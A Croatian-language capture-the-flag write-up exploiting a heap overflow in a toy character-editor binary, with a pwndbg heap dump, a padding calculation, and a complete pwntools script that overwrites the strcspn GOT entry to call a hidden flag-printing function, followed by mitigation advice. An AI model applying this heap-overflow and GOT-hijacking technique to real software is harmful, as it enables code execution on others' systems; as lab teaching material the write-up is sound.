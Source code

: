 # Writeup

## Otkrivanje ranjivosti



Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **heap overflow** kod uređivanja opisa postojećeg lika.

```c
printf("Novi opis (ostavi prazno za ostavljanje starog):\n");
char privOpis[500];
strcpy(privOpis, likovi[index]->opis);
fgets(likovi[index]->opis, 600, stdin);
likovi[index]->opis[strcspn(likovi[index]->opis, "\n")] = '\0';
if(strlen(likovi[index]->opis) == 0){
	strcpy(likovi[index]->opis, privOpis);	
}
```

U programu je za opis pojedinog lika rezervirano polje od 500 bajtova, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 600 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.
```
└─$ checksec --file=likovi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               3               likovi
```
Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.


## Objašnjenje ranjivosti

Već je u prošlom zadatku objašnjen PIE pa se ovdje smatra da se razumije.

Kako bi se bolje razumjela ranjivost **heap overflow**, može se pogledati sadržaj heap-a u programu pomoću programa ```gdb``` u kombinaciji s ```pwndbg```. Za vizualni prikaz heap-a koristi se naredba ```vis```:


```
pwndbg> vis

...

0x405290        0x0000000000000000      0x0000000000000021      ........!.......
0x4052a0        0x00000000004052c0      0x0000000000405300      .R@......S@.....
0x4052b0        0x0000000000000000      0x0000000000000041      ........A.......
0x4052c0        0x0000006a6f726548      0x0000000000000000      Heroj...........
0x4052d0        0x0000000000000000      0x0000000000000000      ................
0x4052e0        0x0000000000000000      0x0000000000000000      ................
0x4052f0        0x0000000000000000      0x0000000000000201      ................
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
0x405310        0x002e6b696e746172      0x0000000000000000      ratnik..........
0x405320        0x0000000000000000      0x0000000000000000      ................

...

0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
0x405500        0x0000000000405520      0x0000000000405560       U@.....`U@.....
0x405510        0x0000000000000000      0x0000000000000041      ........A.......
0x405520        0x6361766f6b696c5a      0x0000000000000000      Zlikovac........
0x405530        0x0000000000000000      0x0000000000000000      ................
0x405540        0x0000000000000000      0x0000000000000000      ................
0x405550        0x0000000000000000      0x0000000000000201      ................
0x405560        0x696c6b756d646f50      0x76616b756c206920      Podmukli i lukav
0x405570        0x6e626f7261632069      0x000000002e6b616a      i carobnjak.....
0x405580        0x0000000000000000      0x0000000000000000      ................
0x405590        0x0000000000000000      0x0000000000000000      ................

...
```


Ovdje se može vidjeti kako se na heap-u nalaze podaci o dva lika: Heroj i Zlikovac.
Njihovi _chunk_-ovi započinju sa ```0x0000000000000021```. Nakon toga slijede dvije adrese koje također pokazuju na heap. To su adresa sadržaja imena lika i adresa sadržaja opisa lika.
Ispod tih adresa nalazi se stvarni sadržaj imena i opisa lika. Ime je veliko 50 bajtova, a opis 500 bajtova. 
Vidi se da se podaci za oba lika nalaze jedan pored drugog.
Budući da se na adresu opisa lika upisuje 600 bajtova (to je više nego rezervirana veličina), može se manipulirati sadržajem koji se nalazi izvan opisa lika. Ovdje je važno da nakon opisa prvog lika slijedi chunk za drugog lika.

 
Ovdje se može iskoristiti napad ```GOT hijacking``` kako bi se preusmjerilo izvršavanje programa na funkciju ```ispisiTajnuPoruku```.
GOT (Global Offset Table) je tablica u memoriji koja pohranjuje adrese vanjskih funkcija i varijabli koje se dinamički povezuju tijekom izvršavanja programa.
Ideja je da se uredi jedan zapis funkcije koja se poziva pomoću GOT tablice tako da pokazuje na funkciju ```ispisiTajnuPoruku```. Prva vanjska funkcija koja se poziva je ```strcspn```.

Situacija u kojoj se može iskoristiti napad je sljedeća:
 - Prvo se uređuje opis prvog lika (Heroj) na način da se u njega upiše: padding do drugog chunka + informacije o chunku (ostaju iste) + adresa funkcije ```strcspn``` iz GOT tablice
 - Zatim se uređuje ime drugog lika (Zlikovac) na način da se u njega upiše adresa funkcije ```ispisiTajnuPoruku```.
 - programski poziv funkcije ```strcspn``` uzrokuje poziv funkcije ```ispisiTajnuPoruku```



Kako bi se izračunao potreban padding, treba se pogledati adresa na kojoj započinje opis prvog lika. 
```
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
```
Ona je ```0x405300```.


Zatim se treba odrediti na kojoj adresi započinje chunk drugog lika. 
```
0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
```
Ona je ```0x4054f8```.

Izračun paddinga:

```
0x4054f0 - 0x405300 = 1F0 = 496 (dec)
496 + 8 = 504
```

Potreban padding je 504 bajta.





## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava heap overflow ranjivost u zadatku. 
Koraci programa:
 - Odabire se opcija za uređivanja likova (4)
 - Odabire se prvi lik (1)
 - Unosi se novi opis lika koji uređuje sadržaj podataka drugog lika i s time omogućuje uređivanje GOT tablice
 - Ponovi se odabir opcije uređivanja likova (4)
 - Odabire se drugi lik (2)
 - Unosi se novi naziv lika koji je adresa funkcije ```ispisiTajnuPoruku```.


```python
from pwn import *

io = process("./likovi")
elf = ELF("./likovi")

# = = = START

# Part1

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")

print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"1")

print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))
io.sendline(b"")

print(io.recvuntil(b"Novi opis (ostavi prazno za ostavljanje starog):"))


payload = b""

padding = b"A" * 504

chunk_info = p64(0x21)


strcspn = p64(elf.got["strcspn"])
print(f"Adresa strcspn = {elf.got["strcspn"]:#x}")

payload += padding + chunk_info + strcspn

io.sendline(payload)
print(payload)

# Part2

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")


print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"2")


print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))


payload2 = b""

ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])

payload2 += ispisiTajnuPoruku


io.sendline(payload2)
print(payload2)


# = = = END


io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[H3AP_c0ntr0l1ng_G0T]```

## Edukativne smjernice
- Heap overflow je napad kod kojeg se unos veći od rezerviranog memorijskog prostora na heapu (buffera) upisuje izvan granica buffera i može prebrisati podatke u susjednim chunk-ovima.
- Za zaštitu od ove ranjivosti preporučuje se:
    - Provjeriti i ograničiti duljinu korisničkog unosa
    - Koristiti sigurnije funkcije za kopiranje niza: ```strncpy``` i ```memcpy_s```. One imaju točno definirane veličine za kopiranje.
    - Uključiti heap canary zaštitu (gcc ... -fsanitize=address) kako bi se pri pisanju izvan granica buffera detektiralo prepisivanje i odmah zaustavilo izvođenje programa.
    - Aktivirati ASLR/PIE kako bi adrese na heap-u bile nasumične i teže predvidljive.
